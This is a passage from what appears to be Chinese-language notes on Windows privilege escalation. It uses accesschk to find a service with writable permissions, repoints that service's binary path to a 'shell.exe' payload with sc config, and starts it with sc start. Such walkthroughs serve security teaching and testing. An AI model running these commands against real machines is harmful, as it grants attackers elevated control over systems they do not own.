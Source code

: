![image-20241015140111501](操作系统提权/image-20241015140111501.png)	

```
使用accesschk工具，发现有一个pythontest服务是具有读写权限。
accesschk64.exe test -cw * /accepteula
也可以用这个命令查看所有服务的哪些用户具有读写权限。
accesschk apache -cw * /accepteula
```

![image-20241015140647694](操作系统提权/image-20241015140647694.png)	

```
将这个服务的路径修改成执行恶意脚本的路径。
sc config pythontest binpath= "C:\USERS\test\Desktop\shell.exe"
```

![image-20241015140921847](操作系统提权/image-20241015140921847.png)	

```
5、手动启动服务
sc start pythontest
```

![image-20241015141110528](操作系统提权/image-20241015141110528.png)	
